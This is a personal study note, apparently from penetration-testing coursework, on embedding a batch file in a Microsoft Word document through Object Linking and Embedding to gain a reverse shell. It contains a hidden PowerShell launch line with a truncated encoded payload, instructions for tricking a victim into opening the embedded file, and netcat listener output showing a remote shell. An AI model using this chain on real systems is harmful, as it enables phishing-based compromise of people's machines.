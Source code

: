 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Object Linking and Embedding]]  
___

## Description:  

Another popular client-side attack against Microsoft Office abuses Dynamic Data Exchange 
(DDE) to execute arbitrary applications from within Office documents.

Create launch.bat (use [revshells](https://www.revshells.com/) to generate the reverse shell.)
```
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

Next, we will include the above script in a Microsoft Word document. We will open Microsoft Word, 
create a new document, navigate to the Insert ribbon, and click the Object menu. Here, we will 
choose the Create from File tab and select our newly-created batch script, launch.bat

After accepting the menu options, the batch file is embedded in the Microsoft Word document. Next, the victim must be tricked into double-clicking it and accepting the security warning.

```
kali@kali:~$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 50115
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Offsec>
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (04:38 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

